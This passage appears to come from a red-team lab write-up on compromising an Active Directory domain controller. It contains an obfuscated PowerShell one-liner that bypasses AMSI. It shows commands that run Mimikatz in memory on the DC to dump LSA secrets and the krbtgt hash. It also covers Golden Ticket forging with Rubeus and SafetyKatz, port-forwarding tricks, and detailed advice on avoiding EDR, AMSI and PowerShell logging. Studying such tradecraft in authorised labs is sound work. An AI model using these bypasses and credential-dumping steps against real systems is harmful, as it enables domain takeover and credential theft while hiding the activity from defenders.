whoami.exe,net.exe,gpresult.exe, orquser.exe. - Use built-in PowerShell objects (
System.Security.Principal, WMI, or .NET API calls). - Obfuscate commands using aliases if needed (e.g.,
gpsinstead ofGet-Process).
By using these alternatives, you can retrieve the same information without triggering MDE alerts or EDR behavioral detection.
We can extract all the secrets from the Domain Controller using Invoke-Command.
$dc_session = New-PSSession 'us-dc.us.techcorp.loca'Enter-PSSession -Session $dc_session

AMSI Bypass
Once we do access the target remotely let’s do an AMSI bypass to avoid some AMSI detection from the defense mechanisms in implemented on the target.
`bash
SeT-Item ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varIABLE (('1Q'+'2U') +'zX' ) -VaL )."AssEmbly"."GETTYPe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."getfiElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sETVaLUE"(${nULl},${tRuE} )
`

After bypassing the AMSI we should exit the session on our target back to our local session.
Invoke-Command
Invoke-Command is a PowerShell cmdlet that allows us to execute commands on remote systems. It is commonly used for PowerShell Remoting, enabling us to run scripts or commands on one or multiple machines from a single session. Instead of manually connecting to a machine, we can send a command directly to it and retrieve the output.
We can use it with the -ComputerName parameter for basic remoting, but for fully interactive remote execution, it's best to use the -Session parameter, which requires an established PSSession. When targeting a Domain Controller or another high-value system, this can be an efficient way to execute commands without needing a direct RDP session. Since all execution happens remotely, Invoke-Command helps maintain stealth in engagements, especially if we avoid running highly monitored commands.
This executes Get-Process on US-DC while using specific credentials. If PowerShell logging is enabled, commands executed via Invoke-Command can be recorded, so careful obfuscation or in-memory execution is recommended for stealth.
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $dc_sessionEnter-PSSession -Session $dc_sessionInvoke-Mimi -Command '"lsadump::lsa /patch"'

Here, we are using PowerShell Remoting to execute commands on the Domain Controller (DC) without directly interacting with it. First, we establish a remote session using Enter-PSSession -Session $dc_session, allowing us to run commands as if we were locally on the DC. Then, we use Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $dc_session to execute a PowerShell script (Invoke-Mimi.ps1) on the remote DC, which likely loads Mimikatz in memory.
After that, we run Invoke-Mimi -Command '"lsadump::lsa /patch"', which executes Mimikatz in-memory to dump credential data from LSASS. This allows us to extract NTLM hashes, including the krbtgt hash, without writing Mimikatz to disk, helping evade EDR and AV detections. By leveraging PowerShell remoting instead of running Mimikatz directly, we reduce forensic artifacts and increase stealth.
Both approaches have their pros and cons in terms of stealth, OPSEC, and effectiveness. The best choice depends on the EDR/AV defenses in place, the visibility of your actions, and how much persistence you want.
Comparison of Both Approaches
Option 1: Invoke-Mimikatz + PowerShell Remote to Forge a Golden Ticket
- Workflow:
- Use PowerShell Remoting (WinRM or WMI) to execute Invoke-Mimikatz on the DC.
- Forge a Golden Ticket directly in memory.
- Inject the TGT and use it to authenticate against domain resources.
- Stealth Considerations:
- PowerShell Logging: If PowerShell logging is enabled (Script Block Logging, Module Logging), this could trigger detections.
- AMSI (Antimalware Scan Interface): Invoke-Mimikatz might be caught unless AMSI bypass is in place.
- Less Network Traffic: No extra executables are dropped, keeping forensic footprint lower.
- Detection Risks:
- Script Block Logging can catch function calls if not properly obfuscated.
- EDR might monitor WinRM/WMI execution.
- AMSI may block Invoke-Mimikatz unless bypassed.
Option 2: Rubeus + WinRS + Loader.exe + SafetyKatz + Port Forwarding
- Workflow:
- Use Rubeus to forge a Golden Ticket locally.
- Access the DC using WinRS to execute a Loader.exe that runs SafetyKatz in memory.
- Set up port forwarding on the DC (
netsh portproxyorplink) to tunnel requests from 127.0.0.1:8080 to your attacking host. - Call SafetyKatz remotely via 127.0.0.1:8080 while hosting it on your attacking machine.
- Stealth Considerations:
- AV Evasion: Using a Loader to reflectively execute SafetyKatz in memory reduces file-based detection.
- Better OPSEC: Port forwarding hides external requests, avoiding direct outbound connections from the DC.
- No direct PowerShell Execution: Bypasses PowerShell logging, which is common in EDR detections.
- Detection Risks:
- WinRS Logging (Event ID 4104, 4688) can show command execution.
- Network-based Anomaly Detection may flag new port forwarding rules on the DC.
- DLL Injection or Reflective Loading may still trigger EDR behavioral detections.
Which One Is Stealthier?
If the Environment Has PowerShell Logging & AMSI:
✅ Option 2 (Rubeus + Loader + SafetyKatz + Port Forwarding) is stealthier
- Bypasses PowerShell logging by avoiding Invoke-Mimikatz.
- Uses in-memory execution, avoiding direct disk writes.
- Port forwarding helps mask outbound connections from the DC.
If PowerShell Logging Is Weak & WinRM Is Allowed:
✅ Option 1 (Invoke-Mimikatz + PowerShell Remoting) is stealthier
- No additional executable artifacts on the system (only PowerShell memory execution).
- Fewer network modifications, avoiding port forwarding anomalies.
- Faster execution without relying on Rubeus and SafetyKatz loaders.
Best Approach for Maximum Stealth
- Combine Both Tactics:
- Use WinRS to execute an obfuscated PowerShell AMSI bypass, then run Rubeus to inject a Golden Ticket.
- Establish port forwarding using
netshto avoid direct outbound traffic. - Run SafetyKatz through the forwarded port instead of dropping it on disk.
- If EDR Is Strict on PowerShell:
- Use C# loaders instead of PowerShell (e.g., SharpKatz instead of SafetyKatz).
- Use Named Pipes for data exfiltration instead of port forwarding.
Final Verdict:
For Maximum OPSEC in a Red Team Engagement, Option 2 (Loader + SafetyKatz + Port Forwarding) is better.
- Less reliance on PowerShell
- Better AV evasion
- Lower forensic footprint on disk
However, if PowerShell logging is weak, Option 1 (Invoke-Mimikatz + WinRM) is quicker and simpler.
Recommendation:
🔹 If quick execution is needed, use PowerShell Invoke-Mimikatz.
🔹 If long-term persistence is required, use in-memory loaders + SafetyKatz + port forwarding.
If OPSEC is the top priority, test both approaches in a lab and see which one triggers fewer detections in your specific target environment. 🚀
Here’s a table of services that can be forged for Kerberos tickets along with the native tools or protocols that rely on these services. This information is critical for targeting specific resources during post-exploitation:
| Service (SPN) | Purpose/Protocol | Native Tool/Access Method |
|---|---|---|
| HTTP | Web-based access, including WinRM/WinRS | winrs, PowerShell Remoting (WinRM) |
| HOST | General host-based services | WMI, SMB, Remote Service Management |
| CIFS | File sharing over SMB | net use, dir \\share\folder, File Explorer |
| RPCSS | Remote Procedure Call services | WMI, DCOM, RPC-based tools |
| MSSQLSvc | Microsoft SQL Server | SQL Management Studio, ODBC, SQLCMD |
| LDAP | Directory access over LDAP | ldapsearch, dsquery, AD enumeration tools |
| SMTPSVC | SMTP service for mail servers | Sending emails via Exchange or SMTP relay |
| IMAP | Email access over IMAP | Email clients (e.g., Thunderbird, Outlook) |
| POP3 | Email access over POP3 | Email clients |
| FTP | File transfer over FTP | ftp client, FileZilla, command-line FTP |
| RDP | Remote Desktop Protocol | MSTSC (Remote Desktop Connection) |
| WSMAN | Windows Remote Management (WinRM) | PowerShell Remoting, Invoke-Command |
| TERMSRV | Terminal Services | RDP sessions, RemoteApp |
| DNS | Domain Name System | DNS queries, nslookup, DNS-based enumeration |
| SHELL | Remote Shell Protocol | Telnet-like access |
| NFS | Network File System | Mounting NFS shares |
| SMTP | Mail relay using SMTP | Sending email via SMTP |
Explanation of Key Examples:
- WinRM/WinRS (Service: HTTP)
- If we need to use
winrsorInvoke-Command, we must forge a ticket for the HTTP service on the target machine. - WMI (Services: HOST, RPCSS)
- WMI uses HOST and RPCSS to manage remote processes and interact with the Windows Management Instrumentation service.
- SMB/Shared Drives (Service: CIFS)
- Accessing file shares or interacting with
net userequires a forged ticket for the CIFS service. - SQL Server (Service: MSSQLSvc)
- For accessing databases through SQLCMD or Management Studio, we need a ticket for the MSSQLSvc service.
- RDP (Service: TERMSRV)
- Forging a ticket for TERMSRV allows Remote Desktop Protocol (RDP) sessions to the target.
- LDAP (Service: LDAP)
- Any Active Directory enumeration over LDAP (e.g.,
ldapsearch) requires a ticket for LDAP.